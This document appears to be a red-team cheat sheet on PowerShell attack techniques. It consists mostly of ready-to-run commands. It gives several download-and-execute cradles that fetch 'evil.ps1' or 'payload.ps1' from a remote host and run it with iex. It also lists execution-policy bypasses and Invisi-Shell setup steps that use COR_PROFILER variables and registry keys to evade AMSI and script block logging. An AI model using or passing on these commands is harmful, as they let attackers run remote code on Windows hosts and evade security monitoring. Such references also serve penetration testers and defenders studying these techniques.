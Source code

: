### Powershell Scripts/Modules


Import Script or Module :heavy_check_mark:
```
Import-Module C:\path\to\script.ps1
```

Find all commands in module 
```
Get-Command -Module <modulename>
```

Download & Execute Cradle :heavy_check_mark:
```
iex (New-Object Net.WebClient) .DownloadString('https://webservers/payload.ps1')
```

??
```
$ie=New-Object -ComObjectInternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
```
$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
```
```
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```




### Powershell Detection
- System-wide transcription
- Script Block Logging
- AMSI (AntMalware Scan Interface)
- CLM (Constrained Language Mode)
 - Integration with Applocker & WDAC (Device Guard)

#### Bypasses
##### Execution Policy
:heavy_check_mark:
```
powershell -ExecutionPolicy bypass
```
```
powershell -c <cmd>
```
:heavy_check_mark:
```
powershell -encodedcommand
```
$env:PSExecutionPolicyPreference="bypass"
```

##### Security

[Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) :sparkles:

**with admin privileges**
```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
set COR_PROFILER_PATH=
```

**with non-admin privileges**
```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
```

:broom: can be cleaned up with an *exit* command







